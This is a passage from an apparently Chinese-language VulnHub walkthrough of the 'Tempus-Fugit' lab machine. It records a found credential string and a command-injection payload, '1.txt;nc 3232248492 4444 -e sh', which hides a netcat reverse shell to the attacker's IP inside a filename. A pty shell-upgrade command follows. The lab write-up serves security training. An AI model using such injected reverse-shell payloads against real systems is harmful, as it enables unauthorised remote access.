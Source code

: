 10. 看了一下源码，main.py中有个ftp.login，疑似frp的用户名密码

    ``` shell
    someuserb232a4da4c104798be4613ab76d26efda1a04606
    ```

11. 尝试反弹shell，转换一下ip

    ``` shell
    1.txt;nc 3232248492 4444 -e sh
    ```

    ![13.png](img/vulnhub/Tempus-Fugit/Image13.png)

12. 成功反弹shell

    ![14.png](img/vulnhub/Tempus-Fugit/Image14.png)

# 四、内网渗透

## （一）内网信息收集

1. cd到/root目录下看一下

   ![15.png](img/vulnhub/Tempus-Fugit/Image15.png)

2. 提示还没有完成，获取交互式shell

   ``` python
   python -c 'import pty; pty.spawn("/bin/sh")'
   ```

3. ifconfig看一下
